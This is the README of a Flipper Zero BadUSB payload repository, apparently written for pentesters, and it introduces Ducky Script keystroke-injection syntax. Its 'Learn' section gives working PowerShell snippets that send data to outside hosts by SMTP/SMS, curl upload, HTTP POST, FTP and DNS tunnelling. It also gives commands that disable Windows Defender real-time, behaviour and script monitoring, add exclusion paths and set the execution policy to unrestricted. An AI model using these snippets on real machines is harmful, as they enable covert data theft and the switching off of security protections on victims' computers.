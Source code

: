 <div align="center">

  <img src="assets/logo.png" alt="logo" width="200" height="auto" />
  <h1>Flipper Zero BADUSB Repo</h1>
  
  <p>
    A Collection of Flipper Zero BADUSB Payloads
  </p>
</div>

<br />

![DISCLAIMER](https://github.com/user-attachments/assets/06963c0c-2087-4e9d-a986-9920ef6983f5)


<!-- Table of Contents -->
# Table of Contents 📒

- [About the Project](#about-the-project-🌟)
  * [Rubber Ducky](#rubber-ducky-🥚)
  * [Shop](#shop-🛍️)
- [Getting Started](#getting-started-🧰)
  * [Variables](#variables-🗝️)
  * [Installation](#installation)
  * [Deployment](#deployment-🚩)
  * [Learn](#learn-🎓)
- [Roadmap](#roadmap-🧭)
- [Contact](#contact-🤝)
- [Acknowledgements](#acknowledgements-💎)

  

<!-- About the Project -->
## About the Project 🌟
This Repository is to assist others in their pentesting adventures in addition to helping those get their feet wet for Ducky Scripts 🐥

<!-- Rubber Ducky -->
### Rubber Ducky 🥚
A USB Rubber Ducky is a keystroke injection tool that looks like a USB flash drive. When plugged in, it executes pre-programmed scripts that mimic keyboard input, allowing for quick automation of tasks such as penetration testing and security assessments.

## Shop 🛍️
<details>
  <summary>Hak5</summary>
  <ul>
    <li><a href="https://shop.hak5.org">Hak5 Shop</a></li>
    <li><a href="https://shop.hak5.org/products/usb-rubber-ducky">Rubber Ducky</a></li>
    <li><a href="https://payloadhub.com/blogs/payloads">Hak5's Payload Hub</a></li>
    <li><a href="https://docs.hak5.org/hak5-usb-rubber-ducky">Official Ducky Script Documentation</a></li>
  </ul>
</details>

<details>
  <summary>Flipper Zero</summary>
  <ul>
    <li><a href="https://shop.flipperzero.one">Flipper Zero Shop</a></li>
    <li><a href="https://docs.flipper.net/bad-usb">Flipper Zero's Badusb Documentation</a></li>
  </ul>
</details>

<details>
<summary>Digispark</summary>
  <ul>
    <li><a href="https://www.amazon.com/digispark/s?k=digispark">Amazon Digispark</a></li>
    <li><a href="https://blog.spacehuhn.com/badusb-digispark">Digispark Badusb</a></li>
    <li><a href="https://github.com/CharlesTheGreat77/DigiPass">Digispark Badusb Payloads</a></li>
  </ul>
</details>

<details>
<summary>External Flipper Resources</summary>
  <ul>
    <li><a href="https://github.com/jamisonderek">Mr. Derek Jamison</a></li>
  </ul>
</details>

<!-- Prerequisites -->
### Prerequisites 🚬
This project (and the Flipper Zero as a whole) uses *Ducky Script version 1*. Additionally, most payloads are tested in a *Windows 10* environment. Further testing will be needed on *Windows 11* environment security standards.

<!-- Getting Started -->
## Getting Started 🧰
This is a VERY brief explanation of ducky script in my own words. One may refer to this <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">link</a> if in doubt of supported commands.
<details>
    <summary>REM</summary>
  <ul>
    <li>REM is used as a comment, and does not perform ANY keystroke injection. It got the name REM from the word REMark (remark).</li>
  </ul>
  <pre><code>REM This is a comment</code></pre>
</details>

<details>
    <summary>STRING</summary>
  <ul>
    <li>STRING injects injects a series of keystrokes. Interpreting lowercase, uppercase, etc. automatically with Flipper Zero's implmentation.</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
  <ul>
    <li>we'll cover the ENTER command right after..</li>
  </ul>
</details>

<details>
    <summary>ENTER</summary>
  <ul>
    <li>ENTER does just that.. presses the return (enter) button! This is one of many supported commands which can be found <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a>!</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
</details>

<details>
    <summary>DELAY</summary>
  <ul>
    <li>DELAY creates a momentary pause in miliseconds. This is VERY useful when keystrokes are too fast for the target computer to interpret. If your working payload is failing.. this is probably the cause (ADD MORE DELAY).</li>
  </ul>
  <pre><code>STRING hey!
ENTER
DELAY 1000
STRING how are you?
ENTER
</code></pre>
  Output:
  <pre><code>hey!
[delays for 1 second]
how are you?</code></pre>
</details>

<details>
    <summary>Additional Commands</summary>
  <ul>
    <li>Modifiers: <pre><code>CTRL
CONTROL
SHIFT
ALT
GUI
WINDOWS</code></pre></li>
    <li>Combos: <pre><code>CTRL-ALT
CTRL-SHIFT
ALT-SHIFT
ALT-GUI
GUI-SHIFT</code></pre></li>
    <li>Cursors: <pre><code>DOWNARROW
DOWN
LEFTARROW
LEFT
RIGHTARROW
RIGHT
UPARROW
UP</code></pre></li>
    <li>Control and navigation: <pre><code>ENTER, BREAK, PAUSE, CAPSLOCK, DELETE, BACKSPACE, END, ESC, ESCAPE, HOME, INSERT, NUMLOCK, PAGEUP, PAGEDOWN, PRINTSCREEN, SCROLLOCK, SPACE, TAB, MENU, APP, SYSRQ</code></pre></li>
    <li>Functions: <pre><code>F1, F2, F3, F4, F5, F6, F7, F8, F9, F10, F11, F12</code></pre></li>
  </ul>
</details>

<details>
    <summary>Your first payload (Windows)</summary>
  <ul>
    <li>Lets create a simple payload to open notepad and display.</li>
  </ul>
  <pre><code>GUI r
STRING notepad.exe
ENTER
DELAY 2000
STRING hello world!
ENTER
</code></pre>
  Output: Opens the windows run box with GUI r [GUI is a modifier], and types in notepad.exe, which opens notetpad and types:
  <pre><code>hello world!</code></pre>
  <ul>
    <li>Again, you can find modifiers, combos, cursors, etc. <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a></li>
  </ul>
</details>



<!-- Variables -->
### Variables 🗝️
To run most scripts (outside of PlugNPlay folder), one must populate the variables inside the payload (.txt) file. All variables will be clearly stated with ```%CHANGE_ME%```

Examples:
```
discord_webook = %CHANGE_ME%
```
```
smtp_server = %CHANGE_ME%
```

<!-- Download -->
# Installation
<details>
    <summary>Install BADUSB Repository 🖥️</summary>
    <details>
        <summary>Windows Install 🪟</summary>
            <ul>
                <li>Download the zip and extract the contents in your preffered directory.</li>
            </ul>
            <ul>
                <img src="assets/download.png" alt="logo" width="auto" height="auto" />
            </ul>
    </details>
    <details>
        <summary>Linux Download 🖥️</summary>
        <ul>
            <li>In any terminal:</li>
            <pre><code>git clone https://github.com/CharlesTheGreat77/BADUSB</code></pre>
        </ul>
    </details>

</details>


<!-- Deployment -->
## Deployment 🚩

To deploy the payloads, one must edit the payload (if required) by changing the variables accordingly in the *.txt* file(s) of choice. 

Copy the payloads in the badusb folder in the flipper zero BADUSB directory.


<!-- Payload Development -->
## Learn 🎓
These are brief powershell concepts which covers just about whatever you need for red teaming.
<details>
    <summary>Exfiltration Methods</summary>
  <ul>
    <li>SMTP and/or SMS</li>
  </ul>

```powershell
$hello_world = "Hello World!" # exfiltrate data
$send_to = "%SEND_TO%" # could be the email used below, another email, or a phone number
$smtp_server = "%SMTP_SERVER%" # smtp.gmail.com
$smtp_username = "%SMTP_USERNAME%" # gmail account [example@gmail.com]
$token = "%TOKEN%" # gmail token/smtp password
$SMTPInfo = New-Object Net.Mail.SmtpClient($smtp_server, 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential($smtp_username, $token); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = $smtp_username; $ReportEmail.To.Add($send_to); $ReportEmail.Body = "Flipper Report: $hello_world"; $SMTPInfo.Send($ReportEmail)
```
Phone Number Setup for *send_to* variable:
    
    Format: <phonenumber>@smsgateway
    example: 9992221111@tmomail.net
SMS Gateways for Service Providers can be found <a href="https://jagerpro.com/help-center/sms-and-mms-gateway-list/">here</a>!

  <ul>
    <li>File Transfer with curl:</li>
  </ul>

```powershell
curl.exe -F "file1=@filename.txt" <end_point>
```
  <ul>
    <li>HTTP POST request:</li>
  </ul>

```powershell
$content = Get-Content %FILE_TO_EXFIL% # output.txt
Invoke-WebRequest -Uri http://<http_server> -Method POST -Body $content
```
Exfiltrat files and send the contents via a HTTP post request.

  <ul>
    <li>HTTP POST request:</li>
  </ul>

  <ul>
    <li>FTP File Upload:</li>
  </ul>

```powershell
$fileName = "%FILENAME%"
$ftpUrl = "%FTP_URL%"
$ftpPassw = "%FTP_PASSWORD%"
$sampleData = "Sample data for exfiltration test"
Set-Content -Path $fileName -Value $sampleData
$creds = Get-Credential -Credential $ftpPassw
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile $fileName -Credential $creds
```
Upload files via FTP to an existing FTP server
  <ul>
    <li>Exfiltrate over DNS:</li>
  </ul>

```powershell
$dnsServer = "%DNS_SERVER%"
$exfiltratedData = "String of exfiltrated data"
$chunkSize = 63 # look at the sizes of record types
$encodedData = [System.Text.Encoding]::UTF8.GetBytes($exfiltratedData)
$encodedData = [Convert]::ToBase64String($encodedData)
$chunks = $encodedData -split "(.{$chunkSize})"
foreach ($chunk in $chunks) {
    $dnsQuery = $chunk + "." + $dnsServer
    Resolve-DnsName -Name $dnsQuery
    Start-Sleep -Seconds 5
}
```
</details>

<details>
    <summary>ExecutionPolicy/AV</summary>
    <ul>
        <li>Disable Real Time Monitoring, Behavior Monitoring etc:</li>
    </ul>

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true
```

Admin Privileges is Required.

```powershell
powershell "Start-Process powershell -verb runas"
```

Can open powershell as admin.

  <ul>
    <li>Set Exclusive Path:</li>
  </ul>

```powershell
Add-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy unrestricted
```
To restrict the path back to normal:
```powershell
Remove-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy restricted
```

</details>

<!-- Roadmap -->
## Roadmap 🧭

* [ ] Update Learn section in README
* [ ] Update filesystem hierarchy
* [ ] Update Payload list

<!-- Contact -->
## Contact 🤝

Dicord: DoobTheGoober

Projects: [github](https://github.com/CharlesTheGreat77)


<!-- Acknowledgments -->
## Acknowledgements 💎
I want to give some honor to specific individuals regardless of contribution for payload creation or sheer knowledge and motivation!

 - [Rocket God](https://github.com/RocketGod-git)
 - [Kavitate](https://github.com/Kavitate)
 - [Derek Jamison](https://github.com/jamisonderek)
 - [Redd](https://github.com/InfoSecREDD)
